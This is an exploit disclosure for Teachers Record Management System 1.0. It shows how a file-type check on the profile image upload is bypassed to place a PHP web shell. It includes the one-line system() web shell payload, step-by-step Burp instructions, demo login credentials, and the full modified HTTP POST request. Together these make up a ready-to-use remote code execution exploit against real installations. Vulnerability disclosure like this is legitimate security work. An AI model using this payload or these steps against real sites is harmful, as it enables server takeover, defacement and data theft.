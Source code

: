 ```
Exploit Title: Teachers Record Management System 1.0 – File Upload Type Validation Error in /changeimage
Date: 17-01-2023
Vendor Homepage: https://phpgurukul.com
Software Link: https://phpgurukul.com/teachers-record-management-system-using-php-and-mysql/
Version: 1.0
Tested on: Windows 11 + XAMPP 
```
<h1>TITLE</h1>
Teachers Record Management System 1.0 – File Upload Type Validation Error in /changeimage

<h2>DESCRIPTION</h2>
The upload functionality of updating user profile does not properly validate the file content-type, 
filename, allowing any authenticated user to bypass this security check by adding a valid signature (p.e. GIF89) 
and sending any invalid content-type. This could allow an authenticated attacker to upload HTML files with JS content 
that will be executed in the context of the domain.

## PAYLOAD-USED ##
 ` GIF89a <?php echo system($_REQUEST['dx']); ?> `

<h2>STEPS-TO-REPRODUCE</h2>

1. Login into Teacher-Account with the credentials “**Username:** jogoe12@yourdomain.com”
**Password: Test@123**”

2. Navigate to Profile Section and edit the Profile Pic by clicking on **Edit Image**
3. Open the Burp-suite and Intercept the  Edit Image Request 
4. In POST Request Change the “ **Filename** “ from “ **profile picture.png** “  to  “**profile picture.php.gif** ” 
5. Change the **Content-type from “ image/png “ to “ image/jpg “**
6. And Add this **Payload** : ` GIF89a <?php echo system($_REQUEST['dx']); ?> `
7. Where **GIF89a is the GIF magic bytes this bypass the file upload extension**
8. Below is the Burpsuite-POST Request for all the changes that I have made above

<h2>PROOF-OF-CONCEPT</h2>
The following request was modified to allow uploading php file using a valid GIF signature, but can be modified to upload any kind of content-type:

```
POST /trms/teacher/changeimage.php HTTP/1.1
Host: localhost
Content-Length: 442
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryndAPYa0GGOxSUHdF
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/trms/teacher/changeimage.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=8alf0rbfjmhm3ddra7si0cv7qc
Connection: close

------WebKitFormBoundaryndAPYa0GGOxSUHdF
Content-Disposition: form-data; name="subjects"

John Doe
------WebKitFormBoundaryndAPYa0GGOxSUHdF
Content-Disposition: form-data; name="newpic"; filename="profile picture.php.gif"
Content-Type: image/gif

GIF89a <?php echo system($_REQUEST['dx']); ?>

------WebKitFormBoundaryndAPYa0GGOxSUHdF
Content-Disposition: form-data; name="submit"


------WebKitFormBoundaryndAPYa0GGOxSUHdF--
```
![Teacher-management-poc-file-upload-1](https://user-images.githubusercontent.com/98345027/212889242-0b6bf2d9-d68e-428d-a2ea-c53418b6fa70.png)


<h2>IMPACT</h2>
This could allow an attacker to write custom pages ,Those pages can contain phishing html 
or even JS code that will be executed in the context of the active user browser, and also this
could allow an attacker to overwrite critical files simply by uploading a file with the same name

<h3>REFERENCE</h3>
[CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)


